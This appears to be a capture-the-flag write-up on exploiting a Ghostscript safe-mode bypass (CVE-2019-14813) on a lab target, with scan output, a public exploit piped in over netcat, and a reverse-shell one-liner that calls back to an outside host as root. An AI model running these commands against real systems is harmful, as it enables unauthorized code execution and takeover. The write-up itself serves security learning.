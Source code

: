 ```yaml
---
layout: post
title: CVE-2019-14813 
feature-img: "assets/img/portfolio/CVE-2019-14813.png"
img: "assets/img/portfolio/CVE-2019-14813.png"
date: 18 May 2021
tags: [Lorem, Ipsum]
---
```





[CVE-2019-14813](https://echoctf.red/target/16)


A flaw was found in ghostscript, versions 9.x before 9.28, in the setsystemparams procedure where it did not properly secure its privileged calls, enabling scripts to bypass -dSAFER restrictions. A specially crafted PostScript file could disable security protection and then have access to the file system, or execute arbitrary commands.


References:

[CVE-2019-14813](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14813)

[Ghostscript FIX Commit](http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=885444fcbe10dc42787ecb76686c8ee4dd33bf3)

[Ghostscript Bugzilla - Bug 700317](https://bugs.ghostscript.com/show_bug.cgi?id=700317)

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
PORT      STATE    SERVICE VERSION
12345/tcp open     netbus?
| fingerprint-strings:
|   Help:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in HELP
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 5
|   NULL:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|   OfficeScan:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in GET
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 4
|_    GS>GS>
42132/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?


```

### vulnerability

CVE-2019-14813


### Exploit 

using refrences and google:

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

let connect via telnet:

telnet 10.0.40.0  12345

```
telnet 10.0.40.0  12345 
                                                                       1 ⨯ 2 ⚙
Trying 10.0.40.0...
Connected to 10.0.40.0.
Escape character is '^]'.
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>


```

we connected to Ghostscript. 

### Rce

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

pasting all file content to terminal.

```
cat ghostrule3.ps | nc 10.0.40.0 12345                                                             2 ⚙
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>=============================================================================
=     Safer Mode Bypass by `.forceput` Exposure from `setsystemparams`      =
=============================================================================
GS>GS>[*] Obtaining .forceput operator from setsystemparams operator...
GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>GS>[+] A candidate for .forceput operator found!
GS>GS>[*] Attempting sanity check with the candidate for .forceput operator...
GS>GS<1>GS>GS>GS>GS>GS>[+] Successfully got .forceput operator!
GS>GS>[*] Overwriting several flags to escape from Safer Mode...
GS>GS>GS>GS>GS>GS>GS>GS>GS>[+] Successfully escaped from Safer Mode!
GS>GS>[*] Executing a shell command...
GS>root
GS>
```
as we can see, we can execute commadns, and got bonus, i can do it as root. 

so let get shell + and root.

### Privilege escalation

let replace the id to rev_shell script. 

```

(Executing a shell command...) info
(whoami) osexec print
quit

```

to 

```

(Executing a shell command...) info
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f) osexec print
quit
```

[generate shells](https://www.revshells.com/)

![](/assets/img/p_sec_cve14813.png)

